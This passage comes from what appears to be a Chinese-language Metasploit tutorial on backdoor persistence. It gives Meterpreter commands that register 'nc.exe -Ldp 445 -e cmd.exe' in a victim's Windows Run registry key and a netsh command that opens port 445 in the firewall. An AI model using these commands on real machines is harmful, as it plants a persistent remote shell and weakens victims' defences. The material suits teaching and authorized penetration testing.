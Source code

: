 我们可以看到我们的 Netcat 程序已成功上传到受害者的系统。现在我们必须做的一件重要的事情是将 Netcat 添加到受害者的启动过程中，并将其绑定到端口 445。为了能够做到这一点，我们必须调整受害者的注册表设置。输入`run reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run`。

![Metasploit 持久后门](img/3589_10_40.jpg)

运行此命令枚举了启动注册表键，并且我们发现启动过程中有三个服务正在运行。我们可以在前面的屏幕截图中看到这三个值。现在我们将我们的 Netcat 服务设置在这个注册表值中。输入`reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'`。

![Metasploit 持久后门](img/3589_10_41.jpg)

我们的 Netcat 服务附加到注册表，所以让我们验证它是否正常运行。输入`reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc`。

![Metasploit 持久后门](img/3589_10_42.jpg)

接下来我们要做的重要事情是允许 Netcat 服务通过受害者的防火墙的 445 端口。输入`netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL`。

![Metasploit 持久后门](img/3589_10_43.jpg)
